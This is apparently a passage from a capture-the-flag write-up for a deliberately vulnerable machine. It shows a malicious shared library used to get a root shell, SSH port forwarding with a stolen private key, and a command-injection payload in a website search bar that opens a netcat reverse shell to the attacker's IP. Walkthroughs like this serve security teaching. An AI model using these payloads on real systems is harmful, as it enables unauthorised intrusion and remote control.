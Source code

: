 Once the above file is compiled with
```sh
gcc --shared -m32 -fPIC -o shadow-butchers-premium.so shadow-butchers-premium.c
```
The attacker has to execute the `shadow-butchers-client` and has to select the *sell* option. Since this option was overwritten it will spawn a root shell.

## 🟠 Medium path
Once we have remote access to the machine, we could start to enumerate it. The enumeration process led us to a hidden web service running on a docker container listening on localhost. 

First thing to do to visit the website is a Local Port Forwarding as follows
```sh
ssh -L 9090:localhost:3100 [matteo|saltbae]@vuln_machine_ip -i /downloaded_id_rsa
```
In this way we open a port 9090 on our attacker machine.
This step is necessary because port 3100 is blocked by outside 
```sh
curl vulnerable_machine_ip:3100
>> curl: (7) Failed to connect to vulnerable_machine_ip port 3100 after 2 ms: Couldn't connect to server
```
![Shadow Butcher Homepage](images/shadow/home.png)

We start to play with the website until we find the `/resellers` page. This page presents a search bar used to find meat resellers in the world.
![](images/tgc/hard/reseller_rce.png)
 This search bar presents yet another command injection vulnerability. With the following payload we spawn a reverse shell:
```sh
“; nc 192.168.1.142 9321 -e /bin/ash %23
```
Once we enter we can notice that we are running into a different Linux version than normal. And analyzing running processes something is familiar for who has already used docker.
